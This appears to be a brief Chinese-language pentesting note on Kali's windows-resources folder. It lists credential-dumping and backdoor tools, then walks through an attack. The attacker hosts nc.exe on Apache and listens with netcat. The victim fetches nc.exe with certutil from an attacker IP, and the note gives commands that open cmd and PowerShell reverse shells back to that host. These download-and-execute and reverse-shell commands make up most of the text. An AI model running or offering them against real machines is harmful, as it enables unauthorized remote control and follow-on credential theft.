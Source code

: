 用于存放 windows 渗透工具

```shell
┌──(root㉿kali)-[~]
└─# windows-resources
```

```shell
/usr/share/windows-resources
├── binaries
├── dbd
├── hyperion
├── mimikatz
├── powershell-empire -> ../powershell-empire
├── powersploit
├── sbd
└── wce
```

```
binaries			用于渗透测试的 Windows 可执行文件
dbd					渗透测试的数据库工具
hyperion			生成和混淆 Metasploit 模块的工具
mimikatz			获取 Windows 系统密码哈希值的工具
powershell-empire	PowerShell 脚本
powersploit			PowerShell 脚本
sbd					在受控主机和攻击者之间建立加密的通信信道的 SBD（安装后门）工具
wce					获取 Windows 系统密码哈希值的工具
```

复制 `nc.exe` 到 `upload` 目录

```shell
┌──(root㉿kali)-[~]
└─# cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/upload/
```

开启 Web

```shell
┌──(root㉿kali-23)-[~]
└─# sudo systemctl start apache2.service && sudo systemctl status apache2.service
```

监听端口

```shell
┌──(root㉿kali-23)-[~]
└─# nc -lvnp [attack_port]
```

受害者下载 `nc.exe` 

```cmd
C:\Users\sec\Downloads>certutil -urlcache -split -f http://[attack_ip]/upload/nc.exe [nc_path]
```

CMD 反弹 Shell

```powershell
PS C:\Users\Administrator> C:\Users\sec\Downloads\nc.exe -e cmd [attack_ip] [attack_port]
```

PowerShell 反弹 Shell

```powershell
PS C:\Users\Administrator> C:\Users\sec\Downloads\nc.exe -e powershell [attack_ip] [attack_port]
```

---

Refrences

- [windows-resources](https://www.kali.org/tools/windows-binaries/#windows-resources)
